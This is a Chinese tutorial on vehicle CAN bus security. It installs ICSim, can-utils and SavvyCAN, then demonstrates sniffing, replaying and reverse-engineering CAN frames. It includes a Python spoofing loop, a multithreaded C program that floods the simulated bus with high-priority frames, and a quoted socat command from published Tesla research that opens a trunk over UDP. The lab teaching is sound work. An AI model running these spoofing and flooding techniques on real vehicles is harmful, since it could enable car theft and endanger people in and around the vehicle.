

# 浅谈车辆CAN总线安全 - 先知社区

浅谈车辆CAN总线安全

- - -

## 简介

> 本文主要对CAN总线进行简介，使用ICSim模拟器和一些其他工具实现对CAN总线的基本操作，最后对ICSim模拟器进行CAN DOS攻击

### CAN总线简介

CAN总线（Controller Area Network）是一种广泛应用于汽车、工业控制和其他领域的串行通信协议。它最初由德国公司Bosch在1986年开发，并于1987年正式发布。

现在CAN总线广泛应用于汽车领域，用于车辆内部的多个电子控制单元（ECU）之间的通信，如引擎控制、刹车系统、仪表盘等。此外，它也被广泛应用于工业自动化、机器人技术、医疗设备等领域的分布式控制系统中。

类似于计算机里面的总线，在CAN问世之前，车载通信系统是通过点对点的布线系统实现的。随着车载电子元件越来越多，这种通信系统变得愈发笨重，而且维护费用非常昂贵。这时，CAN应运而生，并成为主流的车载通信系统  
如下图，就可以看到总线结构能够节省很多线路

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112144925-9e32c666-8127-1.png)

### 如何接入CAN

在现实的车辆里我们应该怎么接入整车CAN网络？

#### OBD

通过OBD可以直接访问CAN，并且是最直接的方式。另外，OBD-II也很容易找到：通常位于前排乘客或驾驶员座位附近的某个地方，而且不需要螺丝刀就能连接使用

> 车上诊断系统（On-Board Diagnostics，缩写为OBD，又译车载自动诊断系统），是一种装置于车中用以监控车辆运行状态和回报异常的系统，可于车辆的子系统出现问题时，产生故障代码和提醒讯号通知车主和车厂诊断维修

一般长这样

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112144936-a4db6b8a-8127-1.png)

不同车型的OBD位置可以在网上进行查询

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112144953-af20ba00-8127-1.png)

连接工具一般长这样

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145002-b459b576-8127-1.png)

也可以自己做线束链接，其实对于OBD口上面，只有两个接口跟CAN相关

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145009-b8d0a3da-8127-1.png)

也就是这里的6和14，分别是CAN高电平和低电平

#### 破线

小偷们当然不能进入车内，那么汽车小偷是怎么接入CAN网络的呢

> 请看VCR

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145019-bec59f0c-8127-1.png)

#### 车内零部件

汽车黑客们通过远程控制了车内的零部件之后，就会尝试去FUZZ发送CAN恶意报文，从而进一步控制整车功能  
以科恩实验室破解特斯拉的案例举例  
在攻克网关之后对网关逆向，发现存在安全问题  
比如网关将 20100 和 20101 端口上的 UDP 广播视为一种 CAN 报文，并将其传输到真正的 CAN 总线上。  
通过发送 UDP，我们可以很容易地伪造一些 UDP 信号来实现车内的对应功能，如锁定或解锁  
例如发送如下 UDP 来打开后备箱：

> printf "\\x00\\x00\\x02\\x48\\x04\\x00\\x30\\x07\\x00\\xFF\\xFF\\x00" | socat - udp:gw:20100

## 环境搭建

### 本地环境

这些工具只能安装在Linux上，我使用的是Kali Linux 2023-05-12

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145042-cc62624e-8127-1.png)

### ICSim安装编译

ICSim(Instrument Cluster Simulator)，是由Open Garages推出的工具。它可以产生多个CAN信号，同时会产生许多背景噪声，让我们可以在没有汽车或不改造汽车的情况下即可练习CAN总线的逆向技术。  
github地址 [https://github.com/zombieCraig/ICSim](https://github.com/zombieCraig/ICSim)  
下载编译

> git clone [https://github.com/zombieCraig/ICSim.git](https://github.com/zombieCraig/ICSim.git)  
> cd ICSim  
> sudo make

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145058-d5de90d6-8127-1.png)

这是因为没有安装依赖，更新库并安装依赖

> sudo apt-get update  
> sudo apt install libsdl2-dev libsdl2-image-dev can-utils maven autoconf -y  
> sudo make

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145109-dc6b8382-8127-1.png)

目前目录结构如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145117-e0ff6986-8127-1.png)

启动模拟器

> ./setup\_vcan.sh # 初始化，每次重启后都要重新运行  
> ./icsim vcan0 # 仪表界面  
> ./controls vcan0 # 控制界面

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145127-e6ff4cf2-8127-1.png)

游戏手柄的界面就是控制面板，你可以理解为车内的方向盘和油门加速，开关灯按钮、车门等，也可以插入游戏手柄接入Kali进行控制  
接入之后就算你没有操作，也可以看到仪表盘上指针存在抖动，如果完全没抖动，肯定是环境没配好~  
如果没有手柄的话可以用键盘进行对应操作

| **功能** | **按键** |
| --- | --- |
| 加速  | 上方向键 |
| 左转向 | 左方向键 |
| 右转向 | 右方向键 |
| 开/关左车门（前）锁 | 右/左shift+A |
| 开/关右车门（前）锁 | 右/左shift+B |
| 开/关左车门（后）锁 | 右/左shift+X |
| 开/关右车门（后）锁 | 右/左shift+Y |
| 开启所有车门锁 | 左shift+右shift |
| 关闭所有车门锁 | 右shift+左shift |

我们启动 setup\_vcan.sh 主要功能是加载CAN和vCAN（virtual controller area network）网络模块。并创建名为vcan0的网络设备并打开连接

### can-utils安装

项目地址 [https://github.com/linux-can/can-utils](https://github.com/linux-can/can-utils)  
can-utils 是一个用于控制与 CAN 总线通信的工具集合。CAN（Controller Area Network）总线是一种广泛应用于汽车和工业领域的串行通信协议，用于实时数据交换。

can-utils 提供了一组命令行工具，用于与 CAN 总线进行通信、调试和分析。以下是 can-utils 的一些主要工具和功能：

-   cansend：用于向 CAN 总线发送单个 CAN 帧。可以指定帧的标识符、数据和其他参数。
-   candump：用于监听 CAN 总线上的数据帧，并将接收到的帧显示在终端上。可用于实时监测 CAN 总线的数据流。
-   canplayer：用于回放记录在文件中的 CAN 数据帧。可以模拟之前捕获的 CAN 数据，对系统进行测试和验证。
-   cangen：用于生成随机的 CAN 数据帧，用于测试和模拟不同的 CAN 数据场景。
-   cansniffer：用于监视 CAN 总线上的数据帧，并将其显示在终端上。与 candump 不同的是，cansniffer 可以提供更详细的信息，如错误检测和计数器统计等。
-   canbusload：用于测试 CAN 总线的负载容量。通过生成大量的 CAN 数据帧，可以评估 CAN 总线的性能和稳定性。

使用命令安装即可

> sudo apt-get install can-utils

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145141-ef8222f0-8127-1.png)

### socketcand安装

socketcand 是一个开源的软件工具，用于在Linux系统上实现CAN（Controller Area Network）总线的通信。它提供了一个简单且灵活的接口，使用户能够通过套接字（sockets）与CAN总线进行通信。

我们需要用这个工具来让kayak跟CAN总线通信  
安装步骤如下：

> 下载socketcand
> 
> git clone [https://github.com/linux-can/socketcand.git](https://github.com/linux-can/socketcand.git)  
> cd socketcand
> 
> 获取缺少的文件
> 
> wget [https://raw.githubusercontent.com/dschanoeh/socketcand/master/config.h.in](https://raw.githubusercontent.com/dschanoeh/socketcand/master/config.h.in)
> 
> 编译安装
> 
> autoconf  
> ./configure  
> make clean  
> make  
> sudo make install

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145154-f7477e68-8127-1.png)

### Kayak安装

Kayak 是一款功能强大且易于使用的CAN总线分析工具，旨在帮助开发人员和工程师对CAN网络进行诊断、监测和调试。它提供了直观的用户界面，使用户能够轻松地捕获、分析和可视化CAN数据。

有的方法是下载之后本地编译 但是我本地编译会出现问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145209-00016b90-8128-1.png)

不想去解决这种奇奇怪怪的问题，直接下载release版本，下载了之后在bin目录下会有windows版本和linux的运行程序

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145218-05406dcc-8128-1.png)

遗憾的是运行二进制文件也会出现问题，看了一下issue和报错感觉是Kali上的JDK版本太高了，选择另外一个工具吧

### SavvyCAN安装

官方网站 - [https://www.savvycan.com/](https://www.savvycan.com/)上是这么介绍SavvyCAN的：

> SavvyCAN是一个基于多个QT平台的C++程序，主要用于CAN数据的逆向分析和捕获。它最初是为了介绍EVTVDue和CANDUE等EVTV硬件的用法而编写的。此后，它被扩展到适用于任何socketCAN兼容设备，以及Macchina M2和Teensy 3.x板。它可以同时捕获并发送至多个总线和CAN摄像机。

我们直接下载二进制文件进行使用

> wget [https://github.com/collin80/SavvyCAN/releases/download/continuous/SavvyCAN-1999da8-x86\_64.AppImage](https://github.com/collin80/SavvyCAN/releases/download/continuous/SavvyCAN-1999da8-x86_64.AppImage)  
> chmod 777 [SavvyCAN-1999da8-x86\_64.AppImage](https://github.com/collin80/SavvyCAN/releases/download/continuous/SavvyCAN-1999da8-x86_64.AppImage)  
> ./SavvyCAN-044fea3-x86\_64.AppImage

这样就启动了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145232-0d9b3f38-8128-1.png)

## 简单操作

> 操作的同时熟悉一下工具

### CAN流量监听

我们启动icsim时候，其实创建了名为vcan0的网络设备并且打开了链接，可以使用ifconfig进行查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145243-1479489a-8128-1.png)

#### can-utils监听

我们使用can-utils监听vcan0（虚拟can接口）

> candump -l vcan0

会直接存储到同目录下的log文件内

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145313-266cdb02-8128-1.png)

去除 -l 选项之后可以直接打印到屏幕上查看实时流  
以第一条can数据进行介绍

> (1699536496.340671) vcan0 305#8035

对应的是

> (时间戳) can接口 仲裁ID#数据

仲裁ID的数字越低，在网络上的优先级就越高

使用cansniffer进行监听

> cansniffer -c vcan0

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145324-2cad0334-8128-1.png)

这里的数据也分为了 time ID data 三部分，跟上面是一样的含义  
其中变化的数据会以红色显示  
虽然看到其他师傅说这部分可以用cansniffer进行过滤，但是感觉在终端界面里面滚动查询也太麻烦了（可能是我不太熟练）

#### wireshark监听

> wireshark无处不在

打开wireshark监听vcan0网口

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145353-3e0f85b6-8128-1.png)

可以看到其中的数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145400-422865fa-8128-1.png)

wireshark里面查看的也是未去重的结果

#### SavvyCAN监听

之前很多文章里面都说SavvyCAN的QTSerialBus默认被禁用导致无法与ICSim配合使用，但是看了一下最新版本已经可以正常使用了  
在 Connection->Open Connection Window->Add New Device Connection 中选择 QT SerialBus Devices，将 SerialBus Devices 选择为 socketcan，将 Port 选择为虚拟端口 vcan0

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145411-48a134f2-8128-1.png)

然后就可以看到SavvyCAN这边已经出现了CAN总线数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145418-4d014bcc-8128-1.png)

过滤的话可以采用右下角的filter

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145426-51d12bd6-8128-1.png)

### CAN流量重放和消息逆向

#### 流量重放

CAN流量重放能够带来什么危害？  
车辆跟充电桩之间的通信部分也是CAN通信，如果CAN流量能够进行重放，没有一定的防御机制，那么攻击者可能可以通过这种方式进行恶意扣费等操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145437-58118fd6-8128-1.png)

另一种方式就是通过CAN流量重放重放车内的CAN消息，影响车内功能，导致车辆失控  
我们使用canplayer 进行重放数据，重放一个左车灯亮的数据分为下面三步

-   使用candump监听并dump数据到本地
-   触发重放左车灯的操作
-   使用canplay进行重放 canplayer -I 日志文件.log

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145444-5cb0e94c-8128-1.png)

#### 消息逆向

虽然流量重放能够让我们触发特定的操作，但实际上我们不知道是哪一帧能够触发这个操作，这就需要我们对消息进行逆向，确认仲裁ID  
使用SavvyCAN Sniffer操作，可以看到里面有36个仲裁ID，通过观察法过滤掉不活跃ID

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145453-62099790-8128-1.png)

简单来说，我们在踩油门的时候，查看哪些仲裁ID对应的数据在变化，没有变化的就取消筛选，重复该操作，直到确认具体的ID值  
运行的时候可以看到随着我们一直踩油门，0x224对应的data在不断递增，说明0x224ID对应的就是油门操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145501-66ab2818-8128-1.png)

使用cansend发送数据

> cansend vcan0 244#0000003894

但是这个只会有一瞬间的数值增大  
找了一下cansend好像也没有循环发送的功能  
写个python来持续发送

```plain
import os
import time

while True:
    os.system("cansend vcan0 244#0000003894")
    time.sleep(1)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145514-6e673bf0-8128-1.png)

当然还可以通过二分法和统计法来得到对应ID的实际作用

## CAN攻击

### 大力仲裁出奇迹

前面提到CAN总线协议中基于优先级的仲裁机制，我们很容易会想到通过发送高优先级的CAN消息，让其他总线消息得不到响应，从而实现对CAN的DOS攻击  
我们先找到两个低优先级的操作，为了做对比实验

-   cansend vcan0 19B#00000E000000 # 开车门
-   cansend vcan0 19B#00000F000000 # 关车门

然后找一个高于他们的，这里使用的左转向灯

-   cansend vcan0 188#01000000 # 开左转向灯

为了速度用C语言编一个多线程，开100个线程库库冲

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>

void* send_message(void* arg) {
    while (1) {
        system("cansend vcan0 188#01000000");
    }

    return NULL;
}

int main() {
    pthread_t threads[100];


    for (int i = 0; i < 100; i++) {
        pthread_create(&threads[i], NULL, send_message, NULL);
    }

    while (1) {
        sleep(1); 
    }

    return 0;
}
```

编译成attack可执行文件

```plain
gcc -o attack main.c -pthread
```

运行attack之后，等待左转向灯稳定，监听到的速率最大可以到1-30000hz

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145530-77b59a1c-8128-1.png)

但是还是有抖动，所以只能是造成部分CAN数据干扰，不能百分百干扰  
在下图中，我们先发送了一条开启车门的指令，开启成功  
接下来发送了七条关闭车门的指令，在第七条的时候才关闭成功  
具体操作的时候可能数据每个人电脑上应该不一样，不过还是可以感觉到是有变化的，部分数据会产生丢失，造成对应的指令没有执行成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145537-7c472d48-8128-1.png)

### CAN\_BUS\_DOS工具

找了一圈好像没有特别典型的工具，以该工具为例 - [https://github.com/souravbaghz/Carpunk](https://github.com/souravbaghz/Carpunk)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145547-82245d8a-8128-1.png)

使用该工具的选项6是进行DOS攻击，看看源代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112145553-85dbea38-8128-1.png)

这里只是简单发送了一条000#0000000000000000的can数据

> 仿佛是拆开了米格25 orz

### FUZZ攻击

在对整车CAN进行渗透测试的过程中，我们会对CAN总线进行重放、DOS等检测，除了仲裁ID DOS的方式外，有的时候发送特定的CAN数据帧也可以直接让车内零部件崩溃或者发出警报，不过icsim模拟器看上去没有这个扩展功能  
不同的车机造成DOS的CAN数据帧不同，而且大多数情况下也没有使用手册，需要在实际接入的情况下去不断FUZZ，修改数据帧，检查是否达到自己的效果

## 参考链接

-   [https://www.freebuf.com/articles/web/359398.html](https://www.freebuf.com/articles/web/359398.html)
-   [https://www.ol4three.com/2023/07/11/IOT/%E6%B1%BD%E8%BD%A6%E5%AE%89%E5%85%A8%E6%B5%8B%E8%AF%95CAN%E5%AD%A6%E4%B9%A0/](https://www.ol4three.com/2023/07/11/IOT/%E6%B1%BD%E8%BD%A6%E5%AE%89%E5%85%A8%E6%B5%8B%E8%AF%95CAN%E5%AD%A6%E4%B9%A0/)
-   [https://bacde.me/post/hacking-all-the-cars-can-bus-reverse/](https://bacde.me/post/hacking-all-the-cars-can-bus-reverse/)
-   [https://archives.sector.ca/presentations19/2019\_Rohan\_Aggarwal\_Car\_Hacking\_On\_Simulation.pdf](https://archives.sector.ca/presentations19/2019_Rohan_Aggarwal_Car_Hacking_On_Simulation.pdf)
-   [https://github.com/souravbaghz/Carpunk](https://github.com/souravbaghz/Carpunk)
-   [https://askubuntu.com/questions/1133216/downgrading-java-11-to-java-8](https://askubuntu.com/questions/1133216/downgrading-java-11-to-java-8)
-   [https://tttang.com/archive/1437/](https://tttang.com/archive/1437/)
-   [https://www.jianshu.com/p/93c7c20f88e4](https://www.jianshu.com/p/93c7c20f88e4)
-   [https://www.gei-journal.com/cn/upload/files/2019/8/15173450359.pdf](https://www.gei-journal.com/cn/upload/files/2019/8/15173450359.pdf)
-   [http://xuebao.jlu.edu.cn/gxb/article/2016/1671-5497-46-4-1246.html](http://xuebao.jlu.edu.cn/gxb/article/2016/1671-5497-46-4-1246.html)
-   [https://m.freebuf.com/articles/ics-articles/349255.html](https://m.freebuf.com/articles/ics-articles/349255.html)
-   [https://www.freebuf.com/articles/network/281831.html](https://www.freebuf.com/articles/network/281831.html)
-   [https://www.blackhat.com/docs/us-17/thursday/us-17-Nie-Free-Fall-Hacking-Tesla-From-Wireless-To-CAN-Bus-wp.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Nie-Free-Fall-Hacking-Tesla-From-Wireless-To-CAN-Bus-wp.pdf)
